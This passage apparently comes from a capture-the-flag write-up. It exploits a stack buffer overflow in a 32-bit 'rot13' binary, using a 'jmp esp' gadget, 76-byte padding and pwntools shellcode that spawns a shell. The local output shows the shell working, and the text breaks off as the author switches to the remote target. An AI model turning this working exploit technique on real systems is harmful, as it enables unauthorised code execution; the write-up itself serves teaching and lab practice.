 We're in luck!  We could use the gadget: `0x080484e3 : jmp esp` to jump directly to the stack.

So to review, our payload will look like this:

```
[    PADDING==76       ] [pointer to "jmp esp"] [shellcode]
                        ^
                        |
                       esp
```

Then, once we redirect code flow to `jmp esp`, `$esp` itself will move.

```
[    PADDING==76       ] [pointer to "jmp esp"] [shellcode]
                                               ^
                                               |
                                              esp
```

Then we execute our arbitrary shellcode.  Let's try it out!

```
payload = ''
payload += 'A'*76
# p32() is used to convert an integer to a binary string of the correct endianness for your binary
# for x64 binaries, you are likely to use p64() instead.
payload += p32(0x080484e3)
# pwntools provides free shellcode for us!  This will execute a shell!
payload += asm(shellcraft.i386.linux.sh())
# And just to clean-up things, we will add some shellcode that cleanly calls exit.
# This isn't required though.
payload += asm(shellcraft.i386.linux.exit())
```

And the output:
```
$ ./solver.py
[+] Starting local process '../distFiles/rot13': pid 13125
[*] Switching to interactive mode
Enter the string you would like me to rot13!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAjhh///sh/bin\x89�h\x814$ri1�Qj\x04Y�Q��1�j\x0bX̀1�jX̀
$ id
uid=1000(aaron) gid=1000(aaron) 
```

## Cat the flag!

Ok, it works locally, but let's test to see if it works remotely.

Let's set the global flags to...

```python
REMOTE = True
DEBUG = False
```
